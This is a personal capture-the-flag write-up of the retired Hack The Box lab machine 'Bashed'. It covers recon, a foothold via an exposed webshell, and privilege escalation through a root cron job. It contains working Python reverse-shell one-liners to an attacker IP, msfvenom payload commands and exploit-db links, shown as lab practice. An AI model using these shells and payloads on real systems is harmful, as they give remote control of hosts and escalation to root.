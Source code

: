 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - Python
  - sudo
  - webshell
creation date: 2018-09-29
Date Completed: 2024-10-12
CVEs: CVE-2017-16695
URL: https://app.hackthebox.com/machines/Bashed
IP: 10.129.213.72
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

```

### ffuf (Directories/Subdomain/Files)
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.domain.htb" -c
```

`-recursion -recursion-depth 1`

When raft fails
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u $URL/FUZZ -c
```
### Nikto (Identify Technology)

```
nikto -h $URL -C all
```

## Autorecon

http://10.129.213.72/dev/phpbash.php

# Foothold

users:
arrexel
scriptmanager

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.15.64",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


# Enumeration as www-data

![[Pasted image 20241012095358.png]]


## Linpeas

~~CVE-2016-8655 ~~https://www.exploit-db.com/exploits/44696
~~CVE-2018-14665~~ https://www.exploit-db.com/exploits/45742
**CVE-2017-16695 https://www.exploit-db.com/exploits/45058** 
Vulnerable sudo version https://www.exploit-db.com/exploits/51217

/var/www/html/config.php
/var/www/html/uploads
/usr/bin/gettext.sh
/.bash_history

/etc/apache2/sites-available/000-default.conf
/etc/php/7.0/apache2/php.ini
/etc/php/7.0/cli/php.ini
/etc/apache2/sites-enabled/000-default.conf

unmounted file system
/dev/fd0        /media/floppy0  auto    rw,user,noauto,exec,utf8 0       0

sda
sda1
sda2
sda5

Linux version 4.4.0

## pspy

![[Pasted image 20241012102936.png]]


## Get a better shell
```
msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=10.10.15.64 lport=31337 -f elf > s
```


# Priv Esc

**CVE-2017-16695** https://www.exploit-db.com/exploits/45058

I bet there's other ways...

Looks like the sudo exploit and kernel exploit may have also worked
https://www.exploit-db.com/exploits/51217
https://www.exploit-db.com/exploits/44298

however, i really feel like all those are unintended. there is that cron job running as root that exploits all python scripts in the /scripts folder. only scriptmanager has access to that folder. i feel like the intended path was for me to pivot to scriptmanager and then abuse that cron job. but also scriptmanager can run all commands without a password... OMG i just realized I completely misunderstood the sudo -l output....... fuuuu i'm so silly... i'm going back in to do this the intended way.....




```
sudo -u scriptmanager echo "python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.15.64",8008));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'" > pe.py

sudo -u scriptmanager cp pe.py /scripts
```
Then just wait for the cron job to run...

omg... learned something new here :(
 ` sudo -u scriptmanager bash -i ` will spawn a bash shell and give full read/write access to /scripts


python reverse shell
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.15.64 LPORT=8008 -f raw > reverse.py
```

none of my python reverse shells are working. i literally tried very one on revshells, plus a random one i found on github, plus the msfvenom one...............

from https://0xdf.gitlab.io/2018/04/29/htb-bashed.html#shell-upgrade
```
 echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.15.64\",8008));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > exploit.py
```

so why did that work..... wtf....

so i found that reverse shell here https://medium.com/dont-code-me-on-that/bunch-of-shells-python-b3fb1400b823

the article implies its from payloadallthethings but i didn't see it there....